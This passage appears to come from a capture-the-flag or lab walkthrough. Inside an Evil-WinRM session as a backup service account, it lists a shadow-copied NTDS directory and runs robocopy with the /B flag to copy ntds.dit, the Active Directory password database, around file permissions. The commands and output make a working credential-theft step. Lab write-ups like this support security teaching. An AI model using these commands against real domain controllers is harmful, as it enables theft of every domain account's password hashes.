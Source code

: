 ```shell


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        9/21/2020   3:58 PM                f
d-----        5/26/2020   5:38 PM                PerfLogs
d-----         6/3/2020   9:47 AM                profiles
d-r---        3/19/2020  11:08 AM                Program Files
d-----         2/1/2020  11:05 AM                Program Files (x86)
d-r---        2/23/2020   9:16 AM                Users
d-----        9/21/2020   4:29 PM                Windows
-a----        2/28/2020   4:36 PM            447 notes.txt

*Evil-WinRM* PS Z:\Windows\ntds> ls


    Directory: Z:\Windows\ntds


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        10/5/2020   4:30 PM           8192 edb.chk
-a----        10/5/2020   4:30 PM       10485760 edb.log
-a----        2/23/2020   9:41 AM       10485760 edb00005.log
-a----        2/23/2020   3:13 AM       10485760 edbres00001.jrs
-a----        2/23/2020   3:13 AM       10485760 edbres00002.jrs
-a----        10/5/2020   4:30 PM       18874368 ntds.dit
-a----        10/5/2020   4:30 PM          16384 ntds.jfm
-a----        10/3/2020   3:29 PM         434176 temp.edb

```

I'll now copy the file using `robocopy` with `/B` flag to ignore file permissions and use a new directory `new_ntds` to save the file:

```shell
*Evil-WinRM* PS C:\Users\svc_backup\Documents> robocopy /B z:\Windows\ntds .\new_ntds ntds.dit

-------------------------------------------------------------------------------
   ROBOCOPY     ::     Robust File Copy for Windows
-------------------------------------------------------------------------------

  Started : Monday, October 5, 2020 4:56:08 PM
   Source : z:\Windows\ntds\
     Dest : C:\Users\svc_backup\Documents\new_ntds\

    Files : ntds.dit

  Options : /DCOPY:DA /COPY:DAT /B /R:1000000 /W:30

------------------------------------------------------------------------------

          New Dir          1    z:\Windows\ntds\
            New File              18.0 m        ntds.dit
  0.0%
  0.3%
  [..SNIP..]

*Evil-WinRM* PS C:\Users\svc_backup\Documents\new_ntds> ls


    Directory: C:\Users\svc_backup\Documents\new_ntds


```